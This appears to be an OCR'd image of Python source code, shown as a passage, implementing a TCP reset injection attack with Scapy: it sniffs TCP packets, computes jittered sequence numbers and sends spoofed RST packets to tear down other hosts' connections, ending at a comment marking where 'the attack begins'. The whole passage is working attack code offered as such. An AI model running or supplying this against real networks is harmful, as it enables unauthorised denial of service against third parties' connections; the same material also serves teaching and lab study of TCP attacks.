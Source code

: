     def view(result):
        src_ip = result[IP].src
        src_port = result[TCP].sport
        dst_ip = result[IP].dst
        dst_port = result[TCP].dport
        seq = result[TCP].seq
        ack = result[TCP].ack
        flags = result[TCP].flags

        parameter(
            "Packet caught (TCP connection)",
            {
                "src_ip": src_ip,
                "dst_ip": dst_ip,
                "src_port": src_port,
                "dst_port": dst_port,
                "seq": seq,
                "ack": ack,
            }
        )

        if "S" in flags and synchronize:
            print("Packet has SYN flag, not sending RST")
            return

        rand_process = random.randint(max(-sequence_segment, -seq), sequence_segment)
        if rand_process == 0:
            print("The connection will be terminated by this reset packet!!!!")

        rst_seq = ack + rand_process
        result = IP(src=dst_ip, dst=src_ip) / TCP(sport=dst_port, dport=src_port, flags="R", window=default_wind_length, seq=rst_seq)

        parameter(
            "Send packets Reset tcp...",
            {
                "orig_ack": ack,
                "jitter": rand_process,
                "seq": rst_seq,
            },
        )

        send(result, verbose=0, iface=iface)

    return view

# Function used for debugging purposes only
def debug_packet(result):
    return result.show()


# Main this is where the attack begins
